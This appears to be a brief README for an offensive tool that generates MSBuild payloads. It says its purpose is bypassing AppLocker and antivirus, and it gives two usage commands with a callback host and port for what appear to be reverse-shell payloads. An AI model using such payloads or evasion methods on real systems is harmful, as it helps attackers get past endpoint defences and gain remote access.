 # Msbuild payload generator
Msbuild is a great way to bypass Applockers and AVs, this tool simply automates the payload creation process.

[![asciicast](https://asciinema.org/a/304065.svg)](https://asciinema.org/a/304065)

# Example 
```
sudo python msbuild_gen.py -a x86 -i 10 --lhost 192.168.220.130 --lport 9001 -m
sudo python msbuild_gen.py -a x64 -i 10 --lhost 192.168.220.130 --lport 9001
```

